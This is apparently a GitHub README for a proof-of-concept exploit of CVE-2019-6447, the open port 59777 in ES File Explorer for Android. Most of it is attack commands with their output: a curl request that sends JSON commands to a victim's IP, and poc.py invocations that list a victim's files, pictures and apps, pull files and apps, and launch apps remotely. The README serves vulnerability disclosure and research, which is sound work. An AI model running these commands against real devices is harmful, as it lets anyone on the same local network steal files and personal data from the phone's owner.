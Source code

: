 # ES File Explorer Open Port Vulnerability - CVE-2019-6447
As per their Google Play description:
> ES File Explorer (File Manager) is a full-featured file (Images, Music, Movies, Documents, app) manager for both local and networked use! With over 500 million users worldwide, ES File Explorer (File Manager) helps manage your android phone and files efficiently and effectively and share files without data cost.

Everytime a user is launching the app, a HTTP server is started. This server is opening locally the port 59777:
```console
angler:/ # netstat -ap | grep com.estrongs
tcp6       0      0 :::59777                :::*                    LISTEN      5696/com.estrongs.android.pop
```

On this port, an attacker can send a JSON payload to the target
```console
curl --header "Content-Type: application/json" --request POST --data '{"command":"[my_awesome_cmd]"}' http://192.168.0.8:59777
```

These commands allow an attacker **connected on the same local network to the victim**, to obtain a lot of juicy information (device info, app installed, ...) about the victim's phone, **remotely get a file** from the victim's phone and **remotely launch an app** on the victim's phone.

## Affected Versions
4.1.9.7.4 and below

## POC Features
With the following Proof Of Concept (POC), you can:
- List all the files in the sdcard in the victim device
- List all the pictures in the victim device
- List all the videos in the victim device
- List all the audio files in the victim device
- List all the apps installed in the victim device
- List all the system apps installed in the victim device
- List all the phone apps installed in the victim device
- List all the apk files stored in the sdcard of the victim device
- List all the apps installed in the victim device
- Get device info of the victim device
- Pull a file from the victim device
- Launch an app of your choice
- Get the icon of an app of your choice

## Demo
[![Demo](http://img.youtube.com/vi/z6hfgnPNBRE/0.jpg)](http://www.youtube.com/watch?v=z6hfgnPNBRE)

## How To
```console
$ python poc.py -g /sdcard/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg

$ python poc.py --cmd appPull --pkg com.tencent.mm

$ python poc.py --cmd getAppThumbnail --pkg com.tencent.mm

$ python poc.py --cmd appLaunch --pkg com.tencent.mm
{"result":"0"}

$ python poc.py --cmd getDeviceInfo
{"name":"Nexus 6P", "ftpRoot":"/sdcard", "ftpPort":"3721"}

$ python poc.py --cmd listAppsAll
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"},
{"packageName":"com.android.cts.priv.ctsshim", "label":"com.android.cts.priv.ctsshim", "version":"8.1.0-4396705", "versionCode":"27", "location":"/system/priv-app/CtsShimPrivPrebuilt/CtsShimPrivPrebuilt.apk", "size":"22744", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsPhone
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listAppsSystem
{"packageName":"com.google.android.carriersetup", "label":"Carrier Setup", "version":"8.1.0", "versionCode":"27", "location":"/system/priv-app/CarrierSetup/CarrierSetup.apk", "size":"2462870", "status":"null", "mTime":"1230796800000"}

$ python poc.py --cmd listApps
{"packageName":"com.google.android.youtube", "label":"YouTube", "version":"13.50.52", "versionCode":"1350523400", "location":"/data/app/com.google.android.youtube-hg9X1FaylPbUXO1SaiFtkg==/base.apk", "size":"36860368", "status":"com.google.android.apps.youtube.app.application.backup.YouTubeBackupAgent", "mTime":"1545337705957"}

$ python poc.py --cmd listAppsSdcard

$ python poc.py --cmd listAudios
{"name":"hangouts_incoming_call.ogg", "time":"10/17/18 11:33:16 PM", "location":"/storage/emulated/0/Android/media/com.google.android.talk/Ringtones/hangouts_incoming_call.ogg", "duration":5000, "size":"74.63 KB (76,425 Bytes)", }

$ python poc.py --cmd listPics
{"name":"mmexport1546422097497.jpg", "time":"1/2/19 10:41:37 AM", "location":"/storage/emulated/0/tencent/MicroMsg/WeChat/mmexport1546422097497.jpg", "size":"38.80 KB (39,734 Bytes)", }

$ python poc.py --cmd listVideos

$ python poc.py --cmd listFiles

$ python poc.py --cmd listFiles --network 192.168.1.

$ python poc.py --cmd listFiles --ip 192.168.4.17 // You can change directory and see contents of the folder besides being able to directly download files inside the basic shell.

$ python poc.py list

######################
# Available Commands #
######################

listFiles: List all the files
listPics: List all the pictures
listVideos: List all the videos
listAudios: List all the audio files
listApps: List all the apps installed
listAppsSystem: List all the system apps
listAppsPhone: List all the phone apps
listAppsSdcard: List all the apk files in the sdcard
listAppsAll: List all the apps installed (system apps included)
getDeviceInfo: Get device info
appPull: Pull an app from the device. Package name parameter is needed
appLaunch: Launch an app. Package name parameter is needed
getAppThumbnail: Get the icon of an app. Package name parameter is needed
```

## Contact
Follow me on [Twitter](https://twitter.com/fs0c131y)! You can also find a small part of my work at [https://fs0c131y.com](https://fs0c131y.com)

## Credits
Following a tip from [@moonbocal](https://twitter.com/moonbocal), the investigation and the POC has been made with ❤️ by @fs0c131y
